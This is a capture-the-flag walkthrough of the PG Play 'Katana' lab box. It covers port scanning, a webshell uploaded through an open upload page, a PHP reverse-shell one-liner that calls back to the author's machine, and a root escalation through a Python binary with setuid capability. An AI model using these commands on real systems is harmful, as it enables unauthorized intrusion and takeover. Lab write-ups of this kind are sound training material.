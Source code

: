 # PG Play - Katana

#### Ip: 192.168.171.83
#### Name: Katana
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.83
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.070s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
8715/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -sC -sV 192.168.171.83 -p 21,22,80,7080,8088,8715
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.065s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-title: Did not follow redirect to https://192.168.171.83:7080/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Heading over to the site we find just a basic image, with no functionality:

![site.png](../assets/katana_assets/site.png)

Lets use Feroxbuster to see if we can discover any interesting directories against the HTTP ports:

![ferox.png](../assets/katana_assets/ferox.png)

Cool, the `/upload.html` directory seems interesting

![upload.png](../assets/katana_assets/upload.png)

Lets upload a copy of the wwwolf-php-webshell and see what we can do with it.

Once uploaded we see this message:

![moved.png](../assets/katana_assets/moved.png)

Ok interesting, looks like the file was uploaded, but I'm seeing a message that it's been moved to another server.

After some trial and error I found our script at http://192.168.171.83:8715/katana_webshell.php where I could confirm that we had execution on the target:

![host.png](../assets/katana_assets/host.png)

Lets grab a reverse shell one-liner from https://www.revshells.com/ and get a proper shell to work in:

### Exploitation

Because I know that the box plays nice with PHP, I'll use:

```text
php -r '$sock=fsockopen("192.168.45.197",443);exec("sh <&3 >&3 2>&3");'
```

Which gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.171.83] 56092
whoami
www-data
hostname
katana
python -c 'import pty;pty.spawn("/bin/bash")'


www-data@katana:/opt/manager/html$
```

From here I can from the local.txt flag in `/var/www`:

![user_flag.png](../assets/katana_assets/user_flag.png)

### Privilege Escalation

Lets upload a copy of LinPEAS to the target to help enumerate a privilege escalation vector:

![transfer.png](../assets/katana_assets/transfer.png)

Cool, LinPEAS finds that Python has capabilities set. This should make for an easy privesc:

Lets run:

```text
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Which drops us into a root shell:

```text
www-data@katana:/tmp$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

We can now grab the proof.txt flag:

![root_flag.png](../assets/katana_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------

